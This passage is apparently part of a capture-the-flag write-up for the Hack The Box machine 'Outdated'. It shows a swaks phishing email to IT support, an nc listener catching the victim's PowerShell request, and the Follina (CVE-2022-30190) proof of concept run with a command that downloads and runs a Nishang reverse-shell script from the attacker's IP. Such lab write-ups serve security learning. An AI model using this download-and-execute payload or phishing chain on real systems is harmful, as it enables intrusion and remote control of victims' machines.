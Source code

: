 ```bash
swaks --to itsupport@outdated.htb --from shuciran@shuciran.com --body "http://10.10.14.2/" --header "Subject: Monitoring internal IP"
=== Trying outdated.htb:25...
=== Connected to outdated.htb.
<-  220 mail.outdated.htb ESMTP
 -> EHLO kali
<-  250-mail.outdated.htb
<-  250-SIZE 20480000
<-  250-AUTH LOGIN
<-  250 HELP
 -> MAIL FROM:<shuciran@shuciran.com>
<-  250 OK
 -> RCPT TO:<itsupport@outdated.htb>
<-  250 OK
 -> DATA
<-  354 OK, send.
 -> Date: Wed, 25 Jan 2023 03:06:29 -0500
 -> To: itsupport@outdated.htb
 -> From: shuciran@shuciran.com
 -> Subject: Internal web app
 -> Message-Id: <20230125030629.189195@kali>
 -> http://10.10.14.2/
 -> .
<-  250 Queued (12.110 seconds)
```
And we can see that a resource is being requested with an interesting User-Agent:
```bash
nc -lvnp 80
listening on [any] 80 ...

connect to [10.10.14.2] from (UNKNOWN) [10.10.11.175] 49865
GET / HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.19041.906
Host: 10.10.14.2
Connection: Keep-Alive
```

### Exploitation
Searching for the vulnerabilities on the PDF (CVE-2022-30190) we find some references to the popular Follina exploit:
![Description](/assets/img/Pasted image 20230124191307.png)
After research a little bit about it, we identify a potential [Follina](https://github.com/chvancooten/follina.py)[^follina] github PoC. In order to exploit it all we need is to be shown in the help menu of the script:
```bash
python3 follina.py       
usage: follina.py [-h] -m {binary,command} [-b BINARY] [-c COMMAND] -t {docx,rtf} [-u URL] [-H HOST] [-P PORT]
follina.py: error: the following arguments are required: -m/--mode, -t/--type
```
Since the victim machine is running with powershell we can point to a web server that contains on the index.html file, the Powershell script from Nishang [Invoke-PowerShellTcp.ps1](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1)
```bash
python3 follina.py -m command -t rtf -c "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.2/reverse.ps1')"
Generated 'clickme.rtf' in current directory
Generated 'exploit.html' in 'www' directory
Serving payload on http://localhost:80/exploit.html
```
This command will create a file called exploit.html on port 80 of the localhost interface, such file has the following content:
![Description](/assets/img/Pasted image 20230124224208.png)

[^dotnet-compilation]: dotNET Project Compilation with Visual Studio
[^full-tty-windows]: Fully Interactive TTY with ConPTY
[^follina]: Follina Exploitation